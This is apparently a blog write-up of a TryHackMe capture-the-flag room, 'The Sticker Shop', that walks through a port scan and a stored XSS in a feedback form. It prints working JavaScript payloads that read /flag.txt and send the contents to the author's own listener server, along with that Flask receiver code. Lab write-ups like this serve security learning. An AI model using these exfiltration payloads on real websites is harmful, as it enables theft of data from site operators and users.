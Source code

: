 ```yaml
---
title: The Sticker Shop
date: 2024-11-30 14:00:00 +0200
categories:
  - TryHackMe
tags:
  - Web
  - XSS
description: Can you exploit the sticker shop in order to capture the flag?
render_with_liquid: false
media_subpath: /assets/img/thm_images/tryhackme_TheStickerShop
image:
  path: room.png
---
```

## Room
    
![Room Card](room_card.png){: w="300" h="300" .center .shadow}

- **Title:** Sticker Shop
- **Name:** [The Sticker Shop](https://tryhackme.com/r/room/thestickershop)
- **Description:** Can you exploit the sticker shop in order to capture the flag?
- **Creator**: [toxicat0r](https://tryhackme.com/r/p/toxicat0r) 

### Flags

1. What is the content of flag.txt?

## Initial Recon

Let's start scanning for open ports.

```console
m3ga@kali:~$ nmap -sS -Pn -v -p- -T4 -A -oN portscan.nmap 10.10.248.122

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
```

Didn't find anything too interesting so I started to enumerate the **webserver** on port **8080**.

From the task description, our objective is to read the `/flag.txt` file. However, we are unable to do so as we get a `401 Unauthorized`.

![](<Pasted image 20241130154528.png>){: w="500" h="300" .center }

Navigating to the homepage, we see the option to submit feedback!

![](<Pasted image 20241130154814.png>){: w="700" h="300" .center }

Based on the task description, I suspect that there is a XSS vulnerability. To test this, I set up a simple webserver and try to submit an XSS payload to call back to my server.

```shell
m3ga@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Here is that payload that I submitted.
```html
<script>var i = new Image(); i.src="http://10.11.75.248"</script>
```

![](<Pasted image 20241130155316.png>){: w="600" h="300" .center }

Almost immediately, I got a response.

![](<Pasted image 20241130155341.png>){: w="500" h="300" .center }

## Flag

To exploit this, we can easily craft a payload that fetches the content of `/flag.txt` and submits it to a server controlled by us.

Firstly, I have a simple web server that I use for these challenges. Here is the code:

```python
# server.py

from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/capture', methods=['POST', 'OPTIONS'])
def capture():
    if request.method == 'OPTIONS':
        # Respond to preflight with appropriate headers
        response = jsonify(success=True)
        response.headers.add('Access-Control-Allow-Origin', '*')  # Allow any origin
        response.headers.add('Access-Control-Allow-Methods', 'POST')  # Allow only POST
        response.headers.add('Access-Control-Allow-Headers', 'Content-Type')  # Allow specific headers
        return response, 200
    elif request.method == 'POST':
        # Handle the actual POST request
        data = request.json.get('flag')
        print(f"Captured flag: {data}")
        return jsonify(success=True), 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

To start the server, we simply do:
```console
m3ga@kali:$ python3 ./server.py
* Serving Flask app 'server'
* Debug mode: off
...
```

Once that's done, we will submit our payload which is this:
```html
<script>
  fetch('/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.11.75.248/capture', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ flag: data })
      });
    });
</script>
```

and as a one-liner:
```html
<script>fetch('/flag.txt').then(r=>r.text()).then(d=>fetch('http://10.11.75.248/capture',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({flag:d})}));</script>
```

After submitting this payload, we will get the flag.

![](<Pasted image 20241130160114.png>){: w="500" h="300" .center }

## Outro

Many thanks to the creator of this room, [toxicat0r](https://tryhackme.com/r/p/toxicat0r).

This room was one of the easiest challenges in a while for sure; still the feeling of completing the objective never gets old.

\- m3gakr4nus
